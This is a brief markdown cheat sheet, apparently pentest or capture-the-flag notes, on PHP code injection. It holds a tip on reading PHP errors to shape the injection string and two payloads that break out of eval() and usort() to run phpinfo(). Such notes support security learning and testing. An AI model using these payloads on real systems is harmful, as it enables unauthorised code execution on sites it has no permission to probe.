 ### When injecting php, warning == find & error == not fine
### As you work through which characters complete the injection string, when you hit a character in the php error that was not in your string - try commenting the end of the string
#### Abuse eval() being used, inject a concatenated command:  
`".phpinfo();"`
#### usort()
`id);}phpinfo();//`
